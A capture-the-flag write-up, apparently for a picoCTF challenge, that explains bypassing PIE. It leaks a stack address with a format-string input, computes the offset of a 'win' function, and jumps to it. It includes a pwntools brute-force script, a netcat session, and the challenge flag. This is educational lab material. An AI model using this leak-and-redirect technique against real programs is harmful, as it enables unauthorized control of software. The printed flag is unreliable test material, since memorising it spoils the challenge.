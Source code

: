 The thing about PIE is that when a program is loaded at an address (in our example that would be ```0x555555555000```), the offsets of functions, variables, etc. is always going to be the same. In this binary the offset of function main would be ```0x400```. If i print address of ```win``` I see it's ```0x55555555536a``` so the offset of that function would be ```0x36a``` from the base address of where the binary is loaded.

So if the address that I printed from the stack is ```0x555555555441``` I can simply change ```441``` to ```36a```, and use that address as an input which should jump to the ```win``` function. Time to get that flag 

First I need to find out where on the stack is this address. In my local environment it was at 19th place but it could be different for the remote machine. I'll make a simple script in python that will send ```%i$p``` as the input, incrementing the ```i``` each time until I find "411" in the output.

```python
from pwn import *

message = ""
payload = ""
i = 0

while(True):
    payload = f'%{i}$p' 
    r = remote("rescued-float.picoctf.net", 52216)
    payload = payload.encode()
    print(r.recvuntil(':'))
    r.sendline(payload)
    message = str(r.recvline().decode())
    if "441" in message:
        break
    r.recvuntil(b': ')
    r.sendline(b'0x1')
    i = i+1

print(str(payload.decode()))
print(message)

```
&nbsp;

After running the script it shows that it's still at 19th position
```
b'Enter your name:'
%19$p
0x628bffc9a441
```

I'll get the flag manually now.

I have to print the address from stack at 19th position and change 441 to 36a.

```
─[$] nc rescued-float.picoctf.net 52216
Enter your name:%19$p
0x6099b76b4441
 enter the address to jump to, ex => 0x12345: 0x6099b76b436a
You won!
picoCTF{p13_5h0u1dn'7_134k_297076a0}

```
